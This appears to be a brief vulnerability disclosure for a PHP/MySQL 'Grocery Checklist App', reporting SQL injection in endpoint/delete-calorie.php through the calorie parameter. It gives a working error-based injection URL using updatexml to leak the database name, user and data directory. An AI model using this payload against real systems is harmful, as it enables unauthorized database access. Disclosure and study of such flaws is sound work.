 # Grocery Checklist App-SQL injection

# environment

[https://www.sourcecodester.com/php/17554/grocery-checklist-app-using-php-and-mysql-source-code.html#google\_vignette](https://www.sourcecodester.com/php/17554/grocery-checklist-app-using-php-and-mysql-source-code.html#google_vignette "https://www.sourcecodester.com/php/17554/grocery-checklist-app-using-php-and-mysql-source-code.html#google_vignette")

In the file endpoint/delete-calorie.php, the variable \$calorie is directly concatenated in the SQL statement.

![](image/image_Z5izxXGou3.png)

Construct a payload.

```sql

http://127.0.0.1:10002/endpoint/delete-calorie.php?calorie=1%27%20or%20updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)%23
```

![](image/image_YIq9oKuYaF.png)
